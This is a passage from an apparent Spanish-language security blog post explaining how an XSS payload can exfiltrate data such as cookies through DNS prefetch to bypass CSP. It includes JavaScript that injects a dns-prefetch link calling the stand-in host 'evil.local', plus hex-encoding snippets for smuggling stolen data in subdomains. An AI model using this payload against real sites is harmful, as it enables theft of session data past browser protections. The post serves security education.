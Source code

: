 Exfiltración DNS? Cómo? Como algunos sabréis, los navegadores incorporan una funcionalidad que se llama *Prefetch*, que permite precargar un recurso que sabemos que vamos a utilizar después para agilizar la carga de la página. Uno de los recursos que podemos precargar son las resoluciones DNS.
{: style="text-align: justify;"}

<link rel="dns-prefetch" ref="http://evil.local"/>

Pues vamos a utilizar esto en nuestro ataque XSS para bypassear a CSP ya que las políticas CSP no afectan a las peticiones DNS. 
{: style="text-align: justify;"}

El código JS simple que vamos a incrustar va a ser este:
{: style="text-align: justify;"}
```
d=document;l=d.createElement('link');l.rel='dns-prefetch';l.href='http://xxx.evil.local/malacatones';h=d.getElementsByTagName('head')[0];h.appendChild(l)
```
[![Prueba de exfiltración DNS mediante etiqueta LINK](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-21-at-08.29.25-1024x737.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-21-at-08.29.25.png)

Bien, no? Pero hay varios problemas que tendremos que solucionar para que esto sea funcional:
{: style="text-align: justify;"}

-   Cantidad de información\
    **Sólo podemos pasar 63 caracteres** por cada subdominio. En muchos casos esto no será suficiente para exfiltrar datos correctamente. Las cookies pueden ocupar mucho más.
-   Codificación\
    Al contrario que exfiltrando por HTTP, en DNS tenemos un set limitado de caracteres que podemos utilizar. Si usamos caracteres no permitidos, el navegador no realizará la query. 
-   Sesión\
    Deberíamos ser capaces de relacionar las llamadas de una sesión para poder concatenar datos

Con esto, sabemos que debemos codificar el output para poder pasar cualquier tipo de carácter y esta salida debe dividirse para enviarla mediante varias peticiones.
{: style="text-align: justify;"}

### Codificación

En cuanto a la codificación, el navegador parece que soporta Base64 y hexadecimal por defecto(sin cargar librerías externas). Después de probar con base64, nos dimos cuenta que no era posible ya que base64 es case sensitive y las queries DNS que realiza el navegador, no tienen por que llegar así al servidor remoto. Así pues, cambiamos a hexadecimal que es más simple todavía.
{: style="text-align: justify;"}

Ahora por cada carácter del contenido que queremos, debemos extraer
{: style="text-align: justify;"}
```
contenido.charCodeAt(x).toString(16)
```
[![String to hexadecimal](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-21-at-20.04.02-1024x285.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-21-at-20.04.02.png)

Como véis, esto tiene un problema. «\n» por ejemplo, resuelve con «a» quitando el «0» inicial, lo cual hará que nuestra string hexadecimal quede corrupta. Para solucionarlo, usamos padding con zeros:
{: style="text-align: justify;"}
```
caracter = contenido.charCodeAt(x).toString(16).padStart(2,0)
```
[![String to hexadecimal con padding de 0](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-21-at-20.06.11-1024x84.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot-2019-01-21-at-20.06.11.png)
